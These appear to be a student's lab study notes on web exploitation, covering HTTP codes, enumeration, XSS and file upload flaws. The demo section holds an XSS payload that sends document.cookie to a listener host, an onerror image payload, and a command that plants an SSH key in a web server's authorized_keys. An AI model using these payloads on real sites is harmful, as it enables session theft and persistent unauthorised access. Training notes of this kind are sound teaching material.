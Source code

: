 # Web Exploitation


# HTTP Response Codes

- 10X = Informational

- 2XX = Success

- 30X = Redirection

- 4XX = Client Error

- 5XX = Server Error
# Enumeration

- Robots.txt: list off different directorys contained in web server
# Cross-Site Scripting (XSS) Overview
- Allows us to arbitaurily place code on a webpage


# Reflected XSS

- Deliver something to server and someone clicks it similiar to phishing through a email

- You put the vulnerability on the server and someone else interacts with it
# Stored XSS

- Already on server and know how to exploit

- The server already has the vulnerability and you interact with it

- example with scripts
  - <script>alert('XSS');</script> = tells us if a site is vulnerble to XSS

  - <img src="http://invalid" onerror="window.open('http://10.50.28.71/java/fruit-7.jpg','xss','height=1,width=1');">(check code)

# Malicious File Upload

- Site alows unsanitized file uploads

- Does not check extension, Allows for code execution
# Demo 

- Script
  - Script http-enum.nse (run when a http port is open {80})

- python3 -m http.server

- <script>document.location="http://<LinopIP>:8000/"+document.cookie;</script>

- ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/9aktlN9GzIIUWJGEVAClDU5v7AM4M8MbT5ETYTjlnG8Lte+2V11I5dnksfLZcNcYhUF7ai0eD4/xtn3lm8QOK+6nLd1mCoh9OKnB7U9ulN4YQdSPkTYBoACMHGeu4rp73W5u1yBDK8fdLsX5f7ZumcRvqGYGDDHF9SdShDWCVRo9rt7hicLo/MyYCRDnM+VTUtvCtQm4VfyAnlSyoDlPy26WTR9cADKOblJ2OFmD/VbsKZaRZAghoqNJjLGPL1dbXNTVVgJwo3cExkDrnOopUmUPqFPmnU2cNMEtF/Wp+donsEFhxfnSI0jl7pD8tiO4j2vKnrCoEJ0nDOnreZVV student@lin-ops

- ssh "public Key" >> var/www/ .ssh/authroized_keys
